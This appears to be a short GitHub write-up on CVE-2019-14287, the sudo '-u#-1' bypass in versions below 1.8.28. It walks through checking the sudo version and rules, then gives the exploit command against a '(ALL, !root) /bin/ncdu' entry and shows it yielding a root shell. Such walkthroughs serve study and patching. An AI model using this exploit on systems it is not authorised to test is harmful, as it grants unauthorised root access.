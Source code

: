 # CVE-2019-14287 - sudo - all versions below 1.8.28 (bug is fixed in sudo 1.8.28)

Vulnerability was found in 2019 that affected all versions below 1.8.28, which allowed privileges to escalate even with a simple command. This vulnerability has the CVE-2019-14287 and requires only a single prerequisite. It had to allow a user in the /etc/sudoers file to execute a specific command.

## Enumeration

```bash
$ sudo -V

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

There is one requarimente 

```bash
$ sudo -l

Matching Defaults entries for student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
```

## Exploitation

```bash
$ sudo -u#-1 /bin/ncdu
```

![ncdu - spawn shell](images/ncdu_shell.png)

```bash
b
```

```bash
# id
uid=0(root) gid=1001(student) groups=1001(student)
```

## Links

- [](https://www.sudo.ws/security/advisories/minus_1_uid/)
- [GTFOBins](https://gtfobins.github.io/)
- [GTFOBins - ncdu](https://github.com/GTFOBins/GTFOBins.github.io/pull/417)